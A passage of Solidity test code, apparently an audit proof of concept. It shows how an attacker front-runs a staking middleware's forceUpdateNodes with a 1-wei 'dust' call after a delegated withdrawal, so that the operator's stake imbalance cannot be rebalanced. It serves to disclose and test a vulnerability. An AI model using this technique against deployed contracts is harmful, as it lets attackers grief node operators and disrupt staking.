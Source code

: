 ```solidity
        // move to next epoch
        uint48 epoch1 = _calcAndWarpOneEpoch();
        (bytes32[] memory nodeIds, bytes32[] memory validationIDs,) =
            _createAndConfirmNodes(alice, 2, 0, true);

        uint48 epoch2 = _calcAndWarpOneEpoch();

        // Verify nodes have the stake
        uint256 totalNodeStake = 0;
        for (uint i = 0; i < validationIDs.length; i++) {
            uint256 nodeStake = middleware.getNodeStake(epoch2, validationIDs[i]);
            totalNodeStake += nodeStake;
            console2.log("Node", i, "stake:", nodeStake);
        }
        console2.log("Total stake in nodes:", totalNodeStake);

        uint256 operatorTotalStake = middleware.getOperatorStake(alice, epoch2, assetClassId);
        uint256 operatorUsedStake = middleware.getOperatorUsedStakeCached(alice);
        console2.log("Operator total stake (from delegation):", operatorTotalStake);
        console2.log("Operator used stake (in nodes):", operatorUsedStake);

        // Step 3. Delegated staker withdraws, reducing Alice's available stake
        console2.log("\n--- Delegated staker withdrawing 60% ---");
        uint256 withdrawAmount = (initialDeposit * 60) / 100; // 600 ether

        vm.startPrank(delegatedStaker);
        (uint256 burnedShares, uint256 withdrawalShares) = vault.withdraw(delegatedStaker, withdrawAmount);
        vm.stopPrank();

        console2.log("Withdrawn amount:", withdrawAmount);
        console2.log("Burned shares:", burnedShares);
        console2.log("Remaining shares for Alice:", initialShares - burnedShares);

         // Step 4. Reduce Alice's operator shares to reflect the withdrawal
        uint256 newOperatorShares = initialShares - burnedShares;
        _setOperatorL1Shares(bob, validatorManagerAddress, assetClassId, alice, newOperatorShares, delegator);


        console2.log("Updated Alice's operator shares to:", newOperatorShares);

        // Step 5. Move to next epoch - this creates the imbalance
        uint48 epoch3  = _calcAndWarpOneEpoch();

        uint256 newOperatorTotalStake = middleware.getOperatorStake(alice, epoch3, assetClassId);
        uint256 currentUsedStake = middleware.getOperatorUsedStakeCached(alice);

        console2.log("\n--- After withdrawal (imbalance created) ---");
        console2.log("Alice's new total stake (reduced):", newOperatorTotalStake);
        console2.log("Alice's used stake (still in nodes):", currentUsedStake);

        // Step 6. Attacker prevents legitimate rebalancing
        console2.log("\n--- ATTACKER PREVENTS REBALANCING ---");

        // Move to final window where forceUpdateNodes can be called
        _warpToLastHourOfCurrentEpoch();

        // Attacker front-runs with dust limitStake attack
        console2.log("Attacker executing dust forceUpdateNodes...");
        vm.prank(attacker);
        middleware.forceUpdateNodes(alice, 1); // 1 wei - minimal removal

```